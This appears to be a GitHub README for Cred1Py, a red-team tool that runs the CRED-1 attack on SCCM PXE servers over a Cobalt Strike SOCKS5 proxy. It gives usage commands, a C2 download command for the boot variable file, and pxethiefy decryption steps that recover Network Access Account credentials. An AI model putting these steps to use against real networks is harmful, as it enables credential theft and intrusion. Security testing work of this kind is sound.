

## Overview

This is a tool used to exploit CRED-1 over a SOCKS5 connection (with UDP support).

## Installation

```
python3 -m venv env
source ./env/bin/activate
pip install -r requirements.txt
```

## Usage

To use Cred1Py:

Start a SOCKS5 proxy via your C2, for example, CS uses the command:

```
> socks 9090 socks5 enableNoAuth a b
```

Then we can invoke Cred1py with:

```
python ./main.py <target> <src_ip> <socks_host> <socks_port>
```

Where:

* Target - The SCCM PXE server IP
* SRC_IP - The IP address of the compromised server we are running the implant on
* SOCKS_HOST - The IP of the team server running SOCKS5
* SOCKS_PORT - The SOCKS5 port

To help visualise the components referenced in the arguments:



Note: Due to the way that SOCKS5 works, the C2 server will need to be accessible on all ports to Cred1py as a second ephemeral port is opened as part of the relaying of UDP traffic. Easiest method is usually to just run Cred1py on the C2 server and target `localhost`.. but you do you!

## How CRED-1 Attack Works

CRED-1 can be broken down into the following steps:

1. Send a DHCP Request for the PXE image over UDP 4011
2. SCCM responds with image path and crypto keys to decrypt the referenced variables file

At this stage, two files are downloaded over TFTP, for example:

1. `2024.09.03.23.35.22.0001.{FEF9DEEE-4C4A-43EF-92BF-2DD23F3CE837}.boot.var`
2. `2024.09.03.23.35.22.07.{FEF9DEEE-4C4A-43EF-92BF-2DD23F3CE837}.boot.bcd`

Next CRED-1 takes the crypto keys returned in the DHCP response, and takes one of two paths depending on the content:

1. If the crypto key is provided, password based encryption is disabled, and therefore a key derivation function is run to produce an AES key to decrypt the variables file

OR

2. If no crypto key is provided, password based encryption is enabled, and a HashCat ouotput is produced from the variables file to allow us to recover the encryption key

Once the key has been recovered (or provided), the variable file can be decrypted and the contents can be used to retrieve Network Access Account username/password.

Further information on this attack can be found in [Misconfiguration Manager](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-1/cred-1_description.md).

## How Cred1Py Works

Cred1Py attempts to perform this flow over a SOCKS5 connection, due to UDP support being provided as part of the SOCKS5 specification and included in products such as Cobalt Strike.

There are a few differences to the Cred1py implementation to tools like PxeThiefy as SOCKS5 limits our ability to retrieve TFTP files (we can't determine the source port used during the data transfer and therefore can't download more than a handful of bytes).

This means that the requirements for Cred1Py are:

1. An implant executing with SOCKS5 enabled
2. Ability to make a SMB connection to a distribution server (this replaces the TFTP component of PxeThiefy)

Once the requirements are met, Cred1Py:

1. Sends a DHCP Request for the PXE image and crypto key
2. Retrieves the crypto keying material
3. Downloads the first 512 bytes of the variables file (possible as this is sent by TFTP server without establishing a TID which needs source port)
4. Outputs either a crypto key, or a hashcat hash, as well as the path to the boot variable file returned via DHCP

At this point, we will need to use our C2 to download the boot variable file, for example in Cobalt Strike we can use:

```
download \\sccmserver.lab.local\REMINST\SMSTemp\BootFileName.boot.var
```

Now if you have a password to crack.. crack it and then pass it as an argument to `pxethiefy.py`:

```
python ./pxethiefy.py decrypt -f /tmp/BootFileName.boot.var PASSWORD_HERE
```

However, if no PXE password is set, you'll be given the crypto key. This will need to be added to `pxethiefy.py`. Easiest way is just to mod `decrypt_media_file` in `pxethiefy.py` to use the binary key, for example:

`decrypt_media_file(args.mediafile, b'\x41\x42\x43\x44.......'):`

We then use PxeThiefy.py to decrypt the `boot.var` file with our recovered key by just invoking with any old password:

```
python ./pxethiefy.py decrypt -f /tmp/BootFileName.boot.var USE_THE_SOURCE_LUKE
```

## Credits

* Christopher Panayi, the original researcher of CRED-1 and the PxeThief OG Tool - https://github.com/MWR-CyberSec/PXEThief
* Carsten Sandker and his awesome Pxethiefy.py Tool which this is based on - https://github.com/csandker/pxethiefy

